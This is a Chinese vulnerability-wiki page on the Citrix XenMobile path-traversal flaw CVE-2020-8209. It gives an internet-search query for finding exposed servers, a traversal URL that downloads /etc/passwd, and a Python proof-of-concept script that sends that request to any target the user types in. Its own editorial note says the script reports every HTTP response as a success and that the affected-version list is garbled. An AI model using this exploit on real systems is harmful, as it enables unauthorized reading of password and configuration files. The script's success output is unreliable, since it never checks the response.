

## 2026-10-03 版本核验

原文把 XenMobile 10.10 与 10.9 连在一起并遗漏 RP5 对应分支。版本索引按 CNA 描述拆为 10.12 before RP2、10.11 before RP4、10.10 before RP6、10.9 before RP5；原始文本保留。

# Citrix XenMobile 任意文件读取 CVE-2020-8209

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 脚本任意HTTP响应都打印含漏洞，未查状态/内容且异常与未受影响混同
- 版本10.1010.9粘连、RP5缺分支，元数据仅首项
- 缺厂商公告及修复版本
- 目录穿越请求本身保留

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 漏洞影响

```
RP2之前的XenMobile服务器10.12
RP4之前的XenMobile服务器10.11
RP6之前的XenMobile服务器10.1010.9
RP5之前的XenMobile服务器
```

## 网络测绘

```
title="XenMobile"
```

## 漏洞复现

访问 [**http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd**](http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd) 可以成功下载**/etc/passwd**文件




## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Citrix XenMobile                                          \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-8209.py                                  \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 含有CVE-2020-8209漏洞，成功读取/etc/passwd\033[0m\n{} ".format(response.text))
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >		>> \033[0m"))
    POC_1(target_url)
```


---

> 来源：Threekiii/Awesome-POC
